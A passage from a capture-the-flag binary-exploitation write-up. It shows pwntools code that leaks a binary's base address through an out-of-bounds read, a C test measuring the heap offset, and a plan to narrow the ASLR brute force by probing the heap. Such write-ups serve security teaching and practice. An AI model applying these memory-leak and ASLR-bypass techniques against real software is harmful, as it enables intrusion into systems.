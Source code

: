 One thing to notice though is that it points to itself, a pointer to the bss. we can use it to leak the binary base:

```python
    slap_length(0, -24, 8) #offset to __dso_handle
    p.recvline()
    leak = p.recvline()[12:-6]
    exe.address = u64(leak.ljust(8, b'\x00'))  - 0xf008

    log.info(f'EXE @ {hex(exe.address)}')
```

Now, we are kinda stuck.

There is nothing we can override in the bss, and we can't do anything.

But, what if we write to the heap?

The heap base address is usually pretty close to the binary base address.

In order to test this, I wrote this simple c script, to show me the offset from the end of the bss, to the start of the heap:

```c
char* hi = "hello";
int main(){
 	void * a = malloc(0x20) - 0x2a0;
	void* b = hi + 0x1ffc;
	
	printf("diff: %p", a - b);
}
```

Running it multiple times, reveals that usually there is just 12 bits of bruteforce, since the first 12 bits are always 0:

```
$ ./test 
diff: 0x1add000
$ ./test 
diff: 0xfad000
$ ./test 
diff: 0x1299000
$ ./test 
diff: 0xce5000
$ ./test
```

12bits is kind of too much, because a PoW has been added, and pepsipu himself stated that we can decrease it more, but how?

We know, that the heap is of size 0x21000. what if, our guess to the heap will hit anywhere in the heap? if we don't crash, we know that our offset is in the range of `[heap_base, heap_base + 0x21000]`.

since we can also read from that address, we can dynamiclly go backwards, until we reach the start of the heap!
